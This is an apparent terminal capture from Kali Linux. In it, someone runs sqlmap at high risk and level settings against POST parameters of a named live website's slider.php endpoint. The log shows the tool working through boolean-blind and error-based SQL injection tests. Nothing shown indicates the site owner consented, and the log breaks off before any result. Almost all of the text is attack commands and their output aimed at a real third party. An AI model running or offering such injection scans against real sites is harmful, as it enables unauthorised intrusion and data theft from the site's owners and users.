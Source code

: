 [*] shutting down at 16:04:00

^C
[1]-  Done                    sqlmap --url 'https://www.qaisare.com/includes/slider.php' --data=limit=13
[2]+  Done                    start=0
root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT" --level=3 --risk=3 --dbms=mysql
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.2.10#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:06:38

[16:06:38] [INFO] testing connection to the target URL
[16:06:38] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:06:39] [INFO] testing if the target URL content is stable
[16:06:39] [INFO] target URL content is stable
[16:06:39] [INFO] testing if POST parameter 'limit' is dynamic
[16:06:39] [INFO] confirming that POST parameter 'limit' is dynamic
[16:06:40] [INFO] POST parameter 'limit' is dynamic
[16:06:40] [WARNING] heuristic (basic) test shows that POST parameter 'limit' might not be injectable
[16:06:41] [INFO] testing for SQL injection on POST parameter 'limit'
[16:06:41] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:06:51] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[16:07:02] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[16:07:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[16:07:20] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[16:07:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[16:07:30] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[16:07:34] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[16:07:34] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[16:07:35] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL - original value)'
[16:07:35] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[16:07:35] [INFO] testing 'Boolean-based blind - Parameter replace (CASE - original value)'
[16:07:35] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[16:07:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:07:52] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:07:57] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[16:08:04] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[16:08:15] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[16:08:27] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[16:08:38] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[16:08:39] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[16:08:39] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[16:08:39] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[16:08:45] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[16:08:50] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'